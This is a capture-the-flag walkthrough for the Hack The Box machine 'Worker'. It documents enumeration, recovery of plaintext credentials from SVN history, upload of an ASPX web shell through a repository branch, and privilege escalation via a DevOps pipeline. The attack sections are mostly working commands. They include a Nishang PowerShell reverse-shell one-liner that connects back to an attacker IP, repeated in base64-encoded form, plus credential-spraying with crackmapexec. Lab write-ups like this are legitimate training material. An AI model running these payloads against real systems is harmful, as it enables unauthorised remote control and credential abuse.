# Summary


## about target

tip:  10.129.2.29

hostname:  Worker

Difficulty:  Medium


## about attack

+ write down the info you found,  missed the subdomain in moved.txt.
+ svn service enum, svn commit/branch/push 
+ crackmapexec --no-bruteforce,  user and pass pair; gobuster vhost scan.
+ Rouge potato exploit


**attack note**

```bash
Worker / 10.129.2.29

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0

---- Interesting
-- from svn log r2 deploy.ps1
nathen:wendel98
robisl:wolves11 

-- from iis wpeas
[!] CVE-2020-1013 : VULNERABLE
[>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

w:\ 

---- Enum 

--svn 3690
svn ls svn://$tip
svn log svn://$tip
svn checkout svn://dimension.worker.htb
svn up -r 2 

# svn submit reverse file.
git clone
cd spectral
cp ../cmd.aspx ./
git add .
git commit -m "add files"
git push 
## error 
## add branch hack1
git branch hack1
git checkout 
git push --set-upstream origin hack1


-- web 
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 50 -u http://$tip/# -o gobuster.log

# gobuster vhost brute
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u $tip  -o gobuster-dns.log

# grep subdomain
curl http://dimension.worker.htb -s -q | grep -o http://.*.worker.htb | sed 's/http:\/\///g' 


---- Foothold
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx

# nishang tcponeliner
# change ip port, conv and base64
cat shell.ps1 | iconv -t utf-16le  | base64 -w 0

## notice the copy if missed some strings.
powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4AOQAnACwAOQAwADAAMQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAnAFAAUwAgACcAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAAoACgA=


---- System

-- iis enum
# wpeas enum
found kernel exploit
found w:\

# passwod, w:\svnrepos\www\conf\
cat creds.list | awk -F: '{print $1}' > user.list
cat creds.list | awk -F: '{print $2}' > pwd.list
crackmapexec winrm $tip -u users.list -p pwd.list --no-bruteforce --continue-on-success

-- robisl enum
# login to devops

# new pipelines, execute powershell, got system.

```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```


## web 

gobuster, nothing found.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 50 -u http://$tip/# -o gobuster.log
```


## svn

Svn check list, log thins.

```bash
svn ls svn://$tip
svn log svn://$tip
```

got subdomain, dimension.worker.htb;

add to hosts.

download code, go to version 2.

```bash
svn checkout svn://dimension.worker.htb
svn up -r 2 
```

Deploy.ps1, found password.

Latest, moved.txt found another subdomain.  add to hosts.










check password,  winrm. No pwned.

```bash
crackmapexec winrm $tip -u nathen -p 'wendel98'
```

## dimension.worker.htb

check subdomain, dimension.worker.htb, need login.

try nathen creds, login.

grep subdomain. add to hosts. 

``` bash
curl http://dimension.worker.htb -s -q | grep -o http://.*.worker.htb | sed 's/http:\/\///g' 

# worth to try gobuster vhost, but nothing.
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u $tip  -o gobuster-dns.log
```


# Foothold

nathen,  not able to edit the pipelines.

check repos,  try upload web shell .

Webshell: https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx

```bash
mkdir code
git clone
cd spectral
cp ../cmd.aspx ./
git add .
git commit -m "add files"
git push 
## error 
## add branch hack1
git branch hack1
git checkout 
git push --set-upstream origin hack1
```

go to web, branch added.



拉取请求



批准，






check pipelines, running.



watch the webshell.

```bash
watch -n 1 'curl http://sepctral.worker.htb/cmd.aspx'
```

powershell nishang onliner

```bash
# nishang tcponeliner
# change ip port, 
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

encode.

```bash
# conv and base64
cat shell.ps1 | iconv -t utf-16le  | base64 -w 0

```

Run in webshell.

```bash
powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4AOQAnACwAOQAwADAAMQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAnAFAAUwAgACcAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAAoACgA=
```

got shell.




# Privesc


## iis enum

wpeas enum, found:

driver w: 

cve-2020-1013 : VULNERABLE

check w: , found passwd.



save to user and pw. check with cme winrm.

```bash
# passwod, w:\svnrepos\www\conf\
cat creds.list | awk -F: '{print $1}' > user.list
cat creds.list | awk -F: '{print $2}' > pwd.list
crackmapexec winrm $tip -u users.list -p pwd.list --no-bruteforce --continue-on-success
```

> Tips, --no-bruteforce, brute with the username and password pair in user.list, pwd.list
>
> 1st user: 1st pwd;
>
> 2nd user: 2nd pwd;

Robisl:wolves11, pwned.




## robisl enum

login to robisl

```bash
evil-winrm -u robisl -p 'wolves11'  -i $tip
```


wpeas, nothing found.

login to devops.worker.htb, able to edit pipeline.

https://0xdf.gitlab.io/2021/01/30/htb-worker.html#priv-robisl--system

add new pipeline, execute powershell.

```bash
powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4AOQAnACwAOQAwADAAMQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAnAFAAUwAgACcAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAAoACgA=
```


got system.

